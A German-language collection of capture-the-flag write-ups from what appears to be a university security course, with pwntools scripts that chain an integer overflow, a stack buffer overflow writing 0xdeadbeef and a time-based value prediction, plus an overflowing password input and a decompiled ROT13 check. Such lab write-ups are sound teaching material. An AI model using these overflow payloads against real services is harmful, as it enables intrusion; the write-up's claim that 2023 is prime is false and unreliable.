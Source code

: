 
### Assignment 33 - Team 14
### Flag
```
FLAG{climbing_the_mountain}
```
```text
Beschreibung
Multistage Exploits..

```
Stufe 1:
```
Es wird nach der Faktorisierung von X * Y = 2023 gefragt, wobei X und Y eingegeben werden müssen. Natürlich kann man nicht einfach 1 und 2023 eingeben, wäre ja zu einfach. Es existiert keine weitere Faktorisierung, da 2023 eine Primzahl ist. Daher muss ein Integer-Overflow / Underflow verwendet werden.

Wir wählen:
4294967295 + 2004 = 4294969299 (2004 statt 2003, weil 0 existiert)

-> 10071 426469 (Primfaktorzerlegung..)
```
Stufe 2:
```
Normaler Check mit Bufferoverflow, eine Variable muss 0xdeadbeef sein. Wir müssen also 10 Zeichen eingeben und dann 0xdeadbeef im richtigen Encoding angeben (jetzt mal ernsthaft, wer kann denn bitte schon little endian auf den ersten Versuch richtig eingeben, danke dass ihr es printet).
```
Stufe 3:
```
Currenttime muss in Sekunden umgerechnet werden, dann ein bisschen geshiftet werden. Wir replizieren es lokal und geben den Wert ein. Hier war das Problem, dass die Serverzeit unterschiedlich ist, wodurch wir lokal das Offset bestimmen und dann schnell nochmal lösen (in der gleichen Sekunde).
Siehe Script.
```
```python
from pwn import *
import time

pty = process.PTY

# context.log_level = 'debug'
p = process("./team_14", stdin=pty, stdout=pty)
# p = remote("tank.informatik.hs-mannheim.de", 3114)

# prime factorization
p.sendlineafter(b"?", b"10071 426469")

# stufe 2
p.sendlineafter(b"?", b"AAAAAAAAAA\xEF\xBE\xAD\xDE")

# stufe 3
currtime = int(time.time())
currtime = currtime ^ (currtime >> 0xc)
currtime = currtime ^ (currtime << 0x19)
currtime = currtime ^ (currtime >> 0x1b)

p.sendlineafter(b"?", str.encode(str(currtime)))
```
Script angepasst damit es automatisch das server time offset crackt:
```python
from pwn import *
import time

pty = process.PTY

# context.log_level = 'debug'
# p = process("./team_14", stdin=pty, stdout=pty)

def crack(curr, goal):
    i = 0
    while True:
        tmp = curr + i
        tmp = tmp ^ (tmp >> 0xc)
        tmp = tmp ^ (tmp << 0x19)
        tmp = tmp ^ (tmp >> 0x1b)
        print(i, tmp, goal)
        if tmp == goal:
            return i

        tmp = curr - i
        tmp = tmp ^ (tmp >> 0xc)
        tmp = tmp ^ (tmp << 0x19)
        tmp = tmp ^ (tmp >> 0x1b)
        if tmp == goal:
            return -i

        i = i + 1

while True:
    p = remote("tank.informatik.hs-mannheim.de", 3114)

    # prime factorization
    p.sendlineafter(b"?", b"10071 426469")

    # stufe 2
    p.sendlineafter(b"?", b"AAAAAAAAAA\xEF\xBE\xAD\xDE")

    # stufe 3
    currtime = int(time.time()) # server time..
    tmp = currtime
    currtime = currtime ^ (currtime >> 0xc)
    currtime = currtime ^ (currtime << 0x19)
    currtime = currtime ^ (currtime >> 0x1b)

    p.sendlineafter(b"?", str.encode(str(currtime)))
    p.recvuntil(b"an ")
    goaltime = p.recvall().decode()[:-1]
    timeoffset = crack(tmp, int(goaltime[:-1]))

    # clean coding bla bla bla
    p = remote("tank.informatik.hs-mannheim.de", 3114)

    # prime factorization
    p.sendlineafter(b"?", b"10071 426469")

    # stufe 2
    p.sendlineafter(b"?", b"AAAAAAAAAA\xEF\xBE\xAD\xDE")

    # stufe 3
    currtime = int(time.time()) + timeoffset # server time..
    print("New time", currtime)
    currtime = currtime ^ (currtime >> 0xc)
    currtime = currtime ^ (currtime << 0x19)
    currtime = currtime ^ (currtime >> 0x1b)

    p.sendlineafter(b"?", str.encode(str(currtime)))
    flag = p.recvall().decode()
    print(flag)

    if "FLAG{" in flag:
        break
```
### Aufgabe 033 - Team 13
```
Beschreibung
Schritt 1:
Einfach das, was an der Wand steht, mit "brainbrainbrain" xor'en, Ergebnis: xorgenius!

Schritt 2:
Benutzername und Passwort stehen in der jeweiligen Methode als Hexadezimalcode, Benutzername = Dev, Passwort = 1337 ABER

Schritt 3:
Es wird eine andere Variable benutzt --> ein Bufferoverflow wird bei einem der Eingaben benötigt.
Da der Benutzername komplett egal ist, muss das Passwort gefälscht werden.

Dabei fällt auf, dass die ersten drei Zeichen als Benutzername genommen werden müssen (muss Dev sein), dann muss der Stack mit 8 Zeichen überbrückt werden und der Wert 1337 im Speicher abgelegt werden.

Benutzername: egal
Passwort: DevAAAAAAAA1337

(oder irgendein beliebiges Zeichen statt A)

Anschließend erhalten wir die Flagge.

Bestätigung des Passworts nicht mit ENTER, SONDERN MIT CTRL + D!!
FLAG{FLAG{FLAG{FLAG{FLAG}}}}
```
```
# Assignment 33 - Team 09

 
## Beschreibung  
Ich habe ehrlich gesagt keine Ahnung was dieses brainfuck interpreter ding in der encrypt() machen soll.
 
```c
undefined8 main(void)
 
{
  int cmpresult;
  size_t keylength;
  long in_FS_OFFSET;
  undefined key [4];
  int local_60;
  int local_5c;
  void *someBuff;
  undefined2 magic;
  undefined local_49;
  undefined userInput [40];
  long canary;
 
  canary = *(long *)(in_FS_OFFSET + 0x28);
  local_60 = 0x13;
  keylength = strlen(::key);
  local_5c = (int)keylength;
  someBuff = malloc(0x13);
  magic = 0x7266;
  local_49 = 0x70;
  memset(userInput,0,0x20);
  printf("Enter message: ");
  __isoc99_scanf(&readString,userInput);
  printf("Enter key: ");
  __isoc99_scanf(&readDouble,key);
  keylength = strlen((char *)&magic);
  encrypt((char *)&magic,(int)keylength);
  cmpresult = strcmp((char *)&magic,"secure");
  if (cmpresult == 0) {
    xor_crypt(someBuff,crypt,(long)local_60,::key,(long)local_5c);
    print_array(someBuff,(long)local_60);
  }
  else {
    puts("Done.");
  }
  if (canary != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return 0;
}
```
 
magic und local haben den String "frp" (fr + p), die Nutzereingabe wird an diesen angehängt in der encrypt-Funktion. Dort wird weiter der String mit einer caesar-Ciphre verschlüsselt (Shift 13). Unser Ziel ist es, dass die Nutzereingabe mit frp das Wort "secure" ergibt. Dies ist möglich, da "frp" um 13 verschoben "sec" ist, wir müssen also nur noch "ure" einfügen. Dafür verschieben wir das ganze auch um 13 (DoppelROT13) und erhalten "her".
 
Nach der Eingabe:  
```bash
./team_09
Enter message: her
Enter key: 13
FLAG{the_real_flag}
```
 
erhalten wir die Flag.
## Flag  
FLAG{LuckyNumberSlevin}
```






